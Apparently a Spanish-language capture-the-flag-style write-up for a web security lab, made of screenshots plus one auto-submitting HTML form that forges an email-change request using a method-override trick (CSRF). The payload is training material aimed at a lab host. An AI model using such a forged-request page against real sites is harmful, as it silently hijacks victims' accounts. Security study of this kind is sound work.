 ## Objetivo:

![[Pasted image 20240519221545.png]]

## Solucion:

![[Pasted image 20240519221658.png]]

![[Pasted image 20240519221714.png]]

```
<body>

<form action="https://0a310031036caa63800785700095003b.web-security-academy.net/my-account/change-email" method="get">

<input type="hidden" name="email" value="pwned@gmail.com" />

<input type="hidden" name="_method" value="POST" />

</form>

  

<script>

document.forms[0].submit()

</script>

</body>
```

